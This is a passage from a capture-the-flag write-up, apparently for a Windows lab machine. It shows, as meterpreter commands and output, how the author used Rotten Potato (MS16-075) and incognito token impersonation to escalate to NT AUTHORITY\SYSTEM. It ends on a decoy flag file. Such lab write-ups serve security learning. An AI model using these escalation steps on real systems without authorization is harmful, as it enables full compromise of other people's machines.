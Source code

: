 SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege
{% endhighlight %}

This means that we can use MS16-075 <a href="https://foxglovesecurity.com/20A16/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/">Rotten Potato</a> to gain a privileged account.<br>
we need to clone the repository at first.
{% highlight shell %}
root@kali:~# git clone https://github.com/foxglovesec/RottenPotato
Cloning into 'RottenPotato'...
remote: Enumerating objects: 426, done.
remote: Total 426 (delta 0), reused 0 (delta 0), pack-reused 426
Receiving objects: 100% (426/426), 2.56 MiB | 4.59 MiB/s, done.
Resolving deltas: 100% (128/128), done.
{% endhighlight %}

Then, achieve a token for SYSTEM user with the following procedure.<br>
We need to load module <a href="https://www.offensive-security.com/metasploit-unleashed/fun-incognito/">incognito</a> for that.
{% highlight shell %}
meterpreter > upload /root/RottenPotato/rottenpotato.exe .
[*] uploading  : /root/RottenPotato/rottenpotato.exe -> .
[*] uploaded   : /root/RottenPotato/rottenpotato.exe -> .\rottenpotato.exe

meterpreter > load incognito
Loading extension incognito...Success.

meterpreter > execute -Hc -f rottenpotato.exe
Process 784 created.
Channel 2 created.

meterpreter > impersonate_token "NT AUTHORITY\SYSTEM"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[-] No delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
{% endhighlight %}

Generally, we have "root.txt" in the Desktop directory of user "Administrator".<br>
However, this time we see nothing but strange "hm.txt".
{% highlight shell %}
meterpreter > ls
Listing: C:\Users\Administrator\Desktop
=======================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  797   fil   2017-11-08 16:05:18 +0200  Windows 10 Update Assistant.lnk
100666/rw-rw-rw-  282   fil   2017-11-04 04:03:17 +0200  desktop.ini
100444/r--r--r--  36    fil   2017-11-04 04:57:21 +0200  hm.txt

meterpreter > cat hm.txt
The flag is elsewhere.  Look deeper.
{% endhighlight %}
